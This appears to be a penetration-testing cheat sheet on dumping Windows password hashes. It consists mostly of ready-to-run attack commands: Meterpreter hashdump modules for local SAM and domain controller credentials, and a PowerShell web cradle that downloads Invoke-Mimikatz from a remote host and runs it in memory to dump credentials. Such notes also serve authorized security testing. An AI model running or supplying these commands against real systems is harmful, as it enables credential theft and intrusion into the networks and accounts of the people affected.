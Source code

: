 # Passwords - Dumping Hashes

#### Windows

```
run post/windows/gather/hashdump
```

Gather hashes with Meterpreter

Dump the local user accounts from the SAM database using the registry

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('http://<invoke-mimkatz>'); Invoke-Mimikatz -DumpCreds"
```

Run Invoke-Mimikatz in memory with Powershell web cradle. You can add all arguments to the end of command

```
use post/windows/gather/credentials/domain_hashdump
```

Dump hashes from domain controller safely with Meterpreter
